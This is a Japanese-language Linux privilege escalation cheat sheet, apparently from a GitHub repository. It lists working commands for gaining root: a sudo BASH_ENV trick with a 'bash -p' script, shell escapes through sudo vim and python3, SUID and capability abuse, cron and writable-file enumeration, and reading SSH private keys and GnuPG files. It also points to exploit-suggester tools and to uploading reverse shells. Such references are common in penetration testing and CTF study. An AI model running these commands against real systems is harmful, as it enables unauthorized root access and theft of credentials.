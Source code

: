 # 🛡️ Linux 権限昇格手順まとめ
## 1.Sudo 権限を利用した昇格
### a.実行可能な sudo コマンドを確認

### b.sudo 環境変数汚染（BASH_ENV）

echo 'bash -p' > /tmp/exp.sh

chmod +x /tmp/exp.sh

sudo BASH_ENV=/tmp/exp.sh /usr/bin/systeminfo

### c.環境変数が継承されない場合

sudo -s

または

sudo -i

### d.sudo で実行できるエディタやインタプリタの利用

sudo /usr/bin/vim -c ':!/bin/sh'

sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'

## 2.SUID ビット付きファイルの利用

find / -perm -4000 -type f 2>/dev/null

例（bashにSUIDがある場合）:

/tmp/bash -p

whoami

## 3.書き込み可能なファイルやディレクトリの調査
find / -writable -type d 2>/dev/null

find / -writable -type f 2>/dev/null

## 4.Cron ジョブの調査
cat /etc/crontab

ls -la /etc/cron.*

systemctl list-timers --all

## 5.環境変数を悪用した昇格
PATH の改変

LD_PRELOAD や LD_LIBRARY_PATH の利用

特に root で実行されるスクリプトで外部コマンドを呼ぶ場合に有効。

## 6.パスワードや秘密鍵の発見
cat ~/.gnupg/*

cat ~/.ssh/id_rsa

## 7.ローカル脆弱性の利用

カーネルの既知の脆弱性を使う（例: Dirty COW、sudoバグなど）

以下のツールを使うと便利:

searchsploit

linux-exploit-suggester

linpeas.sh

## 8.Webシェルやファイルアップロードを利用した昇格

PHP/Pythonのリバースシェルをアップロード

TTY付きシェルで安定した操作を確保

## 9.その他Tips

### Capability付きファイルの確認

getcap -r / 2>/dev/null

cap_setuid などがついていれば昇格に使える可能性あり。

###TTYを使ったシェルの安定化（Python）

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
